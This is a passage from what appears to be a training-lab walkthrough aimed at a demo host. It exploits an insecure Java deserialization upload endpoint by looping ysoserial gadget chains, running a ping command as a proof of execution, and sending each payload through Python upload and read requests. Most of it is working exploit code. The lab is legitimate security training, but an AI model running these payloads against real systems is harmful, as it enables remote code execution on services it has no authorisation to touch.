 

Use the following command to generate payloads.

```bash
while read payloadname; do java -jar ../root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar $payloadname "ping 192.91.247.2 -c 3" > $payloadname; done < payloads.txt
```

It will need to take a list of payloads (we have them by name, we will shortly turn the list into a list of filenames). Moreover, the exploit will need to issue two requests one after the other - the "upload" one and immediately after it the "read file" one.

In the below examples we are using Python 3. Note we are accessing the target machine website so we need to use that IP address.

The "read file" request might look like the one below.

```python
def readfile(filename):
    url = "http://demo.ine.local/upload/index.php?sent=OK"
    r = requests.get(url)
    print("[+] Used filename: " + filename)
    print(r.text)
    print("\n")
```

Then, the "upload_file" request can be similar to the below.

```python
def upload(filename):
    url = "http://demo.ine.local/upload/upload.php"
    files ={'uploaded_file': open(filename, 'rb')}
    r = requests.post(url, files=files)
```



We will also need a list of all payload files by their name. Since each file is named after the payload, we can use the "yso" file again to generate a list (as we don't want to retype it manually).

```bash\
while read payload; do  echo \'$payload\', >> /root/p2.txt; done < payloads.txt
```



The list can be pasted directly into a Python program (the last comma after the last payload has to be deleted)

```python
payloads = [
'Wicket1',
'AspectJWeaver',
'BeanShell1',
'C3P0',
'Click1',
'Clojure',
'CommonsBeanutils1',
'CommonsCollections1',
'CommonsCollections2',
'CommonsCollections3',
'CommonsCollections4',
'CommonsCollections5',
'CommonsCollections6',
'CommonsCollections7',
'FileUpload1'
]
```
